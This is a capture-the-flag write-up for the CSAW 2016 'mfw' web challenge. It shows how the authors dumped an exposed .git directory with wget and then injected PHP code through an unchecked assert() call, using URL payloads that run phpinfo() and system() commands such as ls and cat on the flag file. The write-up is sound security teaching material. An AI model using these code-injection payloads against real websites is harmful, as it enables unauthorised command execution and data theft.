 # CSAW 2016 Quals
# mfw 
#### Cassandra Stavros -- USF Whitehatter's Computer Security Club
#### web -- 125 points
## Description

Hey, I made my first website today. It's pretty cool and web7.9.

http://web.chal.csaw.io:8000/

## Solution
The website gives us the following information:
I wrote this website all by myself in under a week!

I used:

* Git
* PHP
* Bootstrap
---
From the html source code, we can see that there is a hidden flag.php page:
![screen shot](https://cloud.githubusercontent.com/assets/22091364/18804797/22dd372c-81ce-11e6-96b0-a034f3d2d970.jpg)

The website author also hints that he used the above sources to create the website. A quick check of the challenge website reveals that they used GitHub as the source control repository. We can use the publically exposed .git/ directory to retreive the website source code:

    http://web.chal.csaw.io:8000/.git/

Information security professionals warn that publicly revealing a website's source code leaves it open to vulnerabilities (https://en.internetwache.org/dont-publicly-expose-git-or-how-we-downloaded-your-websites-sourcecode-an-analysis-of-alexas-1m-28-07-2015/).

We can use this publically exposed .git/ directory to retreive the website source code.
We used the `wget` command, we downloaded the .git/ directory (or use curl for Mac users):

    wget --mirror -I .git http://web.chal.csaw.io:8000/.git/
---
Now that we have the .git/ directory, we can explore the files in the Git repository. 

By typing in the following command we can get the status of proposed and deleted changes:

    $ git status | head -n 10
    
Which retrieves the following file statuses:

    deleted:    index.php
    deleted:    templates/about.php
    deleted:    templates/contact.php
    deleted:    templates/flag.php
    deleted:    templates/home.php
---

We ran `git checkout -- ` to obtain the source files from the git repo>

Next, we look at the current files in the directory by:

    $ ls

Which shows that the following files exist:

    index.php
    templates
---

We examined the index.php file and found that it used `assert`. We also discovered that the `$file` variable is created from unchecked user input, namely the `$_GET['page']`. We can use `$file` to command inject the `assert` statement.

    <?php

    $file = "templates/" . $page . ".php";

    // I heard '..' is dangerous!
    assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

    // TODO: Make this look nice
    assert("file_exists('$file')") or die("That file doesn't exist!");

    ?>

Per aaraonasterling on StackOverflow: 
>The rule of thumb which is applicable across most languages (all that I vaguely know) is that an `assert` is used to assert that a >condition is always true whereas an `if` is appropriate if it is conceivable that it will sometimes fail. (http://stackoverflow.com/questions/4516419/should-i-be-using-assert-in-my-php-code#4516444)

With this in mind, we knew the way to capture the flag was to use `assert` to our advantage. First we tried some system commands through the browser, such as `http://web.chal.csaw.io:8000/?page=home%27!=0);//` and retrieved the "Detected hacking attempt!" web page.

---    

Next we pulled up the phpinfo page by injecting by the following command into the browser window:

    http://web.chal.csaw.io:8000/?page=home%27).%20phpinfo();%20//

Which retrieved all of the information and configuration of the website:

![screen shot](https://cloud.githubusercontent.com/assets/22091364/18820566/aebaa8c0-836c-11e6-949e-5bfa89b3cade.jpg)

Success! we have injected the `phpinfo();` command into the script sources on the live web page.

---

We then tried the `system()` call to launch commands on the machine and the `ls` command to list the directory contents with `http://web.chal.csaw.io:8000/?page=home%27).%20system(%22ls%20-lah%22);%20//`:

![screen shot](https://cloud.githubusercontent.com/assets/22091364/18804401/47677144-81c8-11e6-9b6a-e766fa952723.png)

As we can see, the directory contains a .git/ folder, a templates/ folder and the index.php source.

---

We explored the templates/ folder by using `http://web.chal.csaw.io:8000/?page=home%27).%20system(%22ls%20-lah%20templates%22);%20//`:

![screen shot](https://cloud.githubusercontent.com/assets/22091364/18804405/477075b4-81c8-11e6-9405-21acd8aee0db.png)

Within this directory we saw flag.php. We examined flag.php next.

---

Lastly, we used the cat command to print out the flag.php contents. We were still in the home directory, so we used the relative path `templates/flag.php` through `http://web.chal.csaw.io:8000/?page=home%27).%20system("cat%20templates/flag.php")%20//`:

![screen shot](https://cloud.githubusercontent.com/assets/22091364/18804402/4769ba94-81c8-11e6-988d-3f066bad6cc6.png)

*Many thanks to prole for helping me edit this write-up*
